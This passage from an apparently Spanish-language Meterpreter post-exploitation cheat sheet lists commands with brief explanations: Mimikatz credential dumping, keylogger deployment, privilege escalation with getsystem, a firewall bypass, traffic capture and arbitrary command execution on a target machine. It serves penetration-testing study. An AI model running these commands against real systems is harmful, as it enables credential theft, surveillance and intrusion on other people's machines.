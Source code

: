     * **Explicación:** Enumera los usuarios presentes en la máquina objetivo.
19. **Enumerar redes y compartir recursos en la máquina objetivo:**

    ```bash
    net
    ```

    * **Explicación:** Muestra información sobre redes y recursos compartidos en la máquina objetivo.
20. **Ejecutar un script en PowerShell en la máquina objetivo:**

    ```bash
    powershell_execute <script>
    ```

    * **Explicación:** Ejecuta un script de PowerShell en la máquina objetivo.
21. **Capturar las credenciales almacenadas en la máquina objetivo:**

    ```bash
    mimikatz_command -f sekurlsa::logonpasswords
    ```

    * **Explicación:** Utiliza Mimikatz para capturar las credenciales almacenadas en la máquina objetivo.
22. **Cargar un keylogger en la máquina objetivo:**

    ```bash
    run post/windows/capture/keylog_recorder
    ```

    * **Explicación:** Carga un keylogger en la máquina objetivo para registrar pulsaciones de teclas.
23. **Escalar privilegios en la máquina objetivo (Windows)((PROBAR)):**

    ```bash
    getsystem
    ```

    * **Explicación:** Intenta escalar privilegios en la máquina objetivo a SYSTEM.
24. **Agregar una excepción al firewall de la máquina objetivo:**

    ```bash
    run post/multi/manage/firewall_bypass
    ```

    * **Explicación:** Agrega una excepción al firewall de la máquina objetivo para permitir conexiones entrantes.
25. **Capturar tráfico de red en la máquina objetivo:**

    ```bash
    run packetrecorder -li <interface> -o <output_file.pcap>
    ```

    * **Explicación:** Captura el tráfico de red en la máquina objetivo y guarda los resultados en un archivo pcap.
26. **Ejecutar un comando arbitrario en la máquina objetivo:**

    ```bash
    execute -f cmd.exe -a "/c <command>"
    ```

